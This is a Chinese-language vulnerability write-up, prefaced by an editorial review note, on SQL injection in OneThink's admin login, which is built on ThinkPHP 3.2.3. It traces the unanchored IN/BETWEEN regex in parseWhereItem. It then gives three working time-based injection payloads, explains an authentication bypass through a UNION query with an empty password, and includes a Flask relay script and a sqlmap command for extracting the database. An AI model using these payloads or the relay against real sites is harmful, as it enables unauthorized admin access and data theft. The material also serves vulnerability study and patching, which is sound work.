## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：username数组可控、有效验证码或登录页无验证码；数据库列结构及默认用户模型

- **适用与权限边界（1）**：标题前台但详细联合查询使用admin/public/login，应区分未认证后台登录入口而不是会员权限。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：IN/BETWEEN运算符未锚定和exp两路径区分清楚，应关联框架；parseKey没意义说法过粗。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（3）**：最终联合查询完整payload仅图，不能单凭空密码得出通用万能密码；status真值不等于大于0。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（4）**：Flask转发默认无verify且不持session，只适无验证码部署；固定域/响应布尔基线未交代。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# OneThink 前台注入

一、漏洞简介
------------

二、漏洞影响
------------

OneThink \< 1.1.141212

三、复现过程
------------

### 漏洞分析

以`OneThink 1.0.131218`为例，本地搭建起`one.think`



打开源码文件夹，好家伙，踏破铁鞋无觅处，得来全不费工夫------thinkphp3.2.3的框架，那岂不是，

> **图片待核**：原归档在此处仅保留文件名 `2.png`，没有可对应的图片引用。

咱们一起回顾下它sql注入时参数的传递过程

    # \OneThink\ThinkPHP\Library\Think\Model.class.php #1576L
     public function where($where,$parse=null){//$where=array("username"=>"xxx")
                    ...  
            if(isset($this->options['where'])){
                $this->options['where'] =   array_merge($this->options['where'],$where);//从左到右，合并数组到options中
            }else{
                $this->options['where'] =   $where;
            }     
            return $this;
        }

上边简单进行了数组合并，再跟进`find()`，
将`$option`变量传入`$this->db`对象的`select`函数，

    # \OneThink\ThinkPHP\Library\Think\Model.class.php #624L
     public function find($options=array()) {
        ...
        $resultSet          =   $this->db->select($options);
        ...

进入`select`函数，关注到它的里面使用到了`buildSelectSql`方法



`$options`变量的学问就在其中，

    # \OneThink\ThinkPHP\Library\Think\Db.class.php # 804L
    ...
    protected $selectSql  = 'SELECT%DISTINCT% %FIELD% FROM %TABLE%%JOIN%%WHERE%%GROUP%%HAVING%%ORDER%%LIMIT% %UNION%%COMMENT%';
    ...
    public function buildSelectSql($options=array()) {
        if(isset($options['page'])) {
            // 根据页数计算limit
            ...
        $sql  =     $this->parseSql($this->selectSql,$options);/*关键*/
        ...

这个`parseSql`里面，起到注入作用，最重要的就是`parseWhere`方法



跟进`parseWhere`方法，425行将`$where`拆成``` $``key ```和``` $``val ```，在后面几个地方传入`parseWhereItem()`，



parseKey是一个取值方法，没实际意义



下面就是注入发生的地方了，好好分析一下这个`parseWhereItem()`函数



首先，`$val`来源于上面的`$where`变量，是咱们可控的；其次，这里正则判断有大问题，没有使用`^`
`$`来定界，导致`xxINxx`这种形式也能通过判断，`val[0]`在`IN`后面实际可构造出任意内容，后续进行了拼接，导致sql注入。

    # \OneThink\ThinkPHP\Library\Think\Db.class.php #469L
    protected function parseWhereItem($key,$val) {
         $whereStr = '';
         elseif(preg_match('/IN/i',$val[0])){ // IN 运算
         if(isset($val[2]) && 'exp'==$val[2]) {
             $whereStr .= $key.' '.strtoupper($val[0]).' '.$val[1];
         }else{
             if(is_string($val[1])) {
                  $val[1] =  explode(',',$val[1]);
             }
             $zone      =   implode(',',$this->parseValue($val[1]));
             $whereStr .= $key.' '.strtoupper($val[0]).' ('.$zone.')';
         }
         }elseif(preg_match('/BETWEEN/i',$val[0])){ // BETWEEN运算
             $data = is_string($val[1])? explode(',',$val[1]):$val[1];
             $whereStr .=  ' ('.$key.' '.strtoupper($val[0]).' '.$this->parseValue($data[0]).' AND '.$this->parseValue($data[1]).' )';
         }

那么确定存在注入问题，这里咱们看看前台登录地址处，具体怎么注入

### 漏洞复现

**payload1-in注入**

    username[]=in ('')) and (select 1 from (select sleep(4))x)--+-&password=2&verify=0x401

实际执行SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE ( `username` 
    IN (''))  AND (SELECT 1 FROM (SELECT SLEEP(4))X)-- - () ) LIMIT 1

**payload2-exp注入**

    username[0]=exp&username[1]=>(select 1 from (select sleep(3))x)&password=2&verify=0x401



实际执行SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE (  (`username` 
        > (select 1 from (select sleep(3))x))  )

**payload3-between注入**

    username[0]=BETWEEN 1 and ( select 1 from (select sleep(2))x)))--+-&username[1]=&password=2&verify=0x401



    SELECT * FROM `onethink_ucenter_member` WHERE (  (`username` 
        BETWEEN 1 AND ( SELECT 1 FROM (SELECT SLEEP(2))X)))-- - '' AND null ) ) LIMIT 1

ok，现在有了注入，我们就能使用联合查询，来绕过后台用户登录，实现\"万能密码\"的效果。但在这之前，还需要分析完整的登录逻辑。

登录逻辑分析
------------

使用[FileMonitor](https://github.com/ianxtianxt/FileMonitor)工具，得到后台登录处的SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE ( `username` = '1' ) LIMIT 1

而数据表`onethink_ucenter_member`的结构如下图，有11列，那么联合注入就需要构造11个参数`union select 1,2,3,4,...,11`



接着发现登录处的链接为`http://www.0-sec.org/index.php?s=/admin/public/login.html`，跟入源码



    # OneThink\Application\Admin\Controller\PublicController.class.php : 31L
    public function login($username = null, $password = null, $verify = null){
    ...
     $User = new UserApi;
                $uid = $User->login($username, $password);
    ...

跟进`UcenterMemberModel`类，进入`login`函数

    # /OneThink/Application/User/Api/UserApi.class.php  #42L
    ...
        protected function _init(){
            $this->model = new UcenterMemberModel();    //初始化
        }

    ...
        public function login($username, $password, $type = 1){
            return $this->model->login($username, $password, $type);
        }

继续跟进，发现登录的关键逻辑

    # /OneThink/Application/User/Model/UcenterMemberModel.class.php #148L
    /* 获取用户数据 */
    public function login($username, $password, $type = 1){
        $map = array();
        switch ($type) {
            case 1:
                $map['username'] = $username; //【给map数组赋值】
                break;
    ...
    /* 获取用户数据 */
    $user = $this->where($map)->find(); //【1 用户名验证】
    if(is_array($user) && $user['status']){
        /* 验证用户密码 */
        if(think_ucenter_md5($password, UC_AUTH_KEY) === $user['password']){【2 密码验证】
            $this->updateLogin($user['id']); //更新用户登录信息
            return $user['id']; //登录成功，返回用户ID
            } else {
            return -2; //密码错误
            }
    } else {
        return -1; //用户不存在或被禁用
        }

整理知道：一个用户要成功登录，得过两道坎：

-   **用户名验证**。即要通过`$username`的验证，并使得查询出的`$user['status']`大于零，所以关注`$user = $this->where($map)->find()`这一条，跟进`where()`方法，追到`\ThinkPHP`文件夹下了，这是注入点。

-   **密码验证**。即还要使得`think_ucenter_md5($password, UC_AUTH_KEY)`等于查询出的`$user['password']`，`$password`其实就是咱们登陆时输入的密码，我们跟进`think_ucenter_md`

<!-- -->

    # \OneThink\Application\User\Common\common.php #15L
    function think_ucenter_md5($str, $key = 'ThinkUCenter'){
     return '' === $str ? '' : md5(sha1($str) . $key);
    }

得出结论：**如果输入值为空值，那么加密函数返回的结果也为空值**------舒服了，根本不必用到hash计算嘛！所以密码验证这一步也搞定了，只需要让POST上去的密码为空即可！





网络不是不法之地。虽然已经可以进后台了，但依然不知道管理员的账号密码，有一些登录界面没有验证码，所以这里再提供一种对接SQLMAP的思路（非改tamper），供大家参考

### 对接sqlmap：Flask参数转发

首先注入点位置如下图



    # encoding: utf-8
    # sqli-reverse-flask.py
    from flask import Flask,request,jsonify
    import requests


    def remote_login(payload):
        '''
        对服务器发起访问请求
        '''
        burp0_url = "http://one.think:80/index.php?s=/admin/public/login.html"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; ) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4086.0 Safari/537.36", "Accept": "application/json, text/javascript, */*; q=0.01", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest"}
        # )) or 1=1 -- -
        pay = ") =' {} ')-- -".format(payload) # )={payload} ）1 = 1
        print(pay)
        burp0_data = {"act": "verify", "username[0]": 'exp', "username[1]": pay, "password": "", "verify": ""}
        resp = requests.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False)

        return resp.text

    app = Flask(__name__)
    @app.route('/')
    def login():
        payload =  request.args.get("id")
        print(payload)
        response = remote_login(payload)
        return response

    if __name__ == '__main__':
        app.run()

那么经过这个转发脚本，原本复杂的参数被简化，你只需要在本地对`http://127.0.0.1:5000/?id=1`跑sqlmap即可。原理上其实与写tamper脚本相同，都是让sqlmap能够识别出"简化过的"注入参数。



    python sqlmap.py -u http://127.0.0.1:5000/?id=1  --tech=B --dbms=mysql --batch

参考链接
--------

> https://xz.aliyun.com/t/8081\#toc-1
